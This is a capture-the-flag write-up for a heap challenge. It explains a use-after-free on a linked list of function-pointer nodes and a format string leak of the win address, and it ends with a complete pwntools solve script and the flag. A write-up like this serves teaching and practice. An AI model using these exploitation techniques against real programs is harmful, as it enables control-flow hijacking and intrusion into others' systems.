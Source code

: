 # Game of Three

494 points - 13 solves

## Description

check out my cool game that uses data structuresTM and algorithmsTM
ncat 144.24.133.118 6003 

## Analysis

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

We are provided the source code and the binary of the challenge. 

The program is a guesser for a random number, you have two arthemetic operations, i.e. + and * given to perform on your current guess and it let's you move up to the number. It creates a log of all the moves made and then can even display them. 


Let's observe some of the functions given. we can see that a `win` function provided for us.

```c
struct Node {
	void (*func_ptr) ();
	struct Node *next;
};
```

the structure of the node stores a function pointer. This is something to be careful about during development because you are passing something that can change the course of execution. Our objective will be to get the win function on this node's function pointer. 

something unintended i believe but there is some type of error in the program. Don't know why but giving '+' or '*' would just give segfaults. This is what the debugger output.

![alt text](image.png)

All hail giving source code in binex challenges.

this is because the history pointer was not initialized properly, so you initialize it with `NULL`.

```diff
140 int main()
141 {
142 -   struct Node *history;
142 +   struct Node *history = NULL;
143     setbuf(stdin, NULL);
144     setbuf(stdout, NULL);
```

Now it works. We can see that the repeat function has something interesting for us 👀, i.e. it does the execution of the function pointers stored. 

```c
void history_repeat(struct Node *history)
{
	if (!history->func_ptr)
	{
		return;
	}
	history->func_ptr();
```

So currently we need to find someway to override the function pointer. We can see the workflow that all of these Nodes are stored in the form of a linkedlist with history as the top. And these are using heap allocation for this. Now where is the exploit. 

## Observation

Let's observe the `history_pop`, 

```c
void history_pop(struct Node *history)
{
	struct Node *last_node = history_travel(history);
	free(last_node);
	last_node->next = NULL;
	last_node->func_ptr = NULL;
}
```

The interesting that happens is, the linked list goes till the last node, and frees the last node, and then nulls the next and func_ptr on it. But it never removed it from the list. Meaning the pointer still remains in the linked list. 

But this also means it is right now in the tcache. Tcache is a storage where all heap chunks that are free'd stay for reuse. If another allocation of same sizes is requested it will allocate the same memory chunk. 

Let's understand what is happening now

![heap-representation](heap.jpg)

Now we can basically create a new chunk and we can use the following option we can write to that chunk

```c
case 'e':
    puts("TODO: Leave a message for the creator!");
    message = malloc(sizeof(struct Node));
    read(0, message, sizeof(struct Node));
    break;
```

so we can just overwrite the function pointer to the win address at the last chunk. This would execute it. 

![alt text](image-1.png)

This exploit is commonly called [Use After Free](https://owasp.org/www-community/vulnerabilities/Using_freed_memory).

So our exploit involves

1) creating a memory chunk
2) Freeing that memory chunk
3) Again allocating and writing on that chunk, where we give the win function pointer
4) Repeat the history LL
5) ???
6) PROFIT

## Exploit Development

First we need is a leak of the win address. Fortunately there is mounting of function addresses happening in the main function and there is a printf where we can pass in our pattern. 

```c
	char buffer[64];
	printf("Enter your name: ");
	fgets(buffer, 64, stdin);

	void (*win_ptr) () = &win;
	void (*add_ptr) () = &add;
	void (*mul_ptr) () = &mul;

	leetify(buffer);

	printf("Welcome to Game of Three, ");
	printf(buffer);
```

This is a common [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). 

Let's use this get a leak of the win_ptr. After some fuzzing you will get that `%10$llx` will give the win function's pointer out.

![alt text](image-2.png)

From here it's just scripting work for the exploit. Allocate, delete, and malloc + write the function pointer, and do repeat. 

The following is my solve script. 

```py
from pwn import *

exe = ELF("./game-of-three")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("144.24.133.118", 6003)

    return r


def main():
    # gdb.attach(r, '''
    #            heap-analysis-helper
    #            c
    #            ''')

    r = conn()
    pl = "%10$p"
    r.sendlineafter(b"name:",pl.encode())
    r.recvuntil(b"ree,")
    leek = int(r.recvline(),16)
    print(hex(leek))
    r.sendlineafter(b"put:",b"+")
    r.sendlineafter(b"put:",b"d")
    r.sendlineafter(b"put:",b"e")
    r.recvline()
    pl = p64(leek)
    r.sendline(pl)
    r.sendlineafter(b"put:",b"r")

    r.interactive()


if __name__ == "__main__":
    main()
```

And that gives the flag

`cruXipher{A-man1pu1ati0n-0f-h3ap5-4nd-b0und5}`
